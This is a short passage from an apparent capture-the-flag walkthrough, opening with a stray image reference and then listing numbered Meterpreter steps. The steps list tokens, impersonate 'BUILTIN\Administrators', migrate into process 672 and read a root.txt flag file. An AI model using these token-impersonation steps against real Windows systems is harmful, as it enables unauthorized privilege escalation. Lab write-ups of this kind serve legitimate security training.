 3)
- list_tokens -g 
- `impersonate_token "BUILTIN\Administrators"` (The speech marks are important)
4)
- ps
- migrate 672
5)
- cat /Windows/System32/config/root.txt
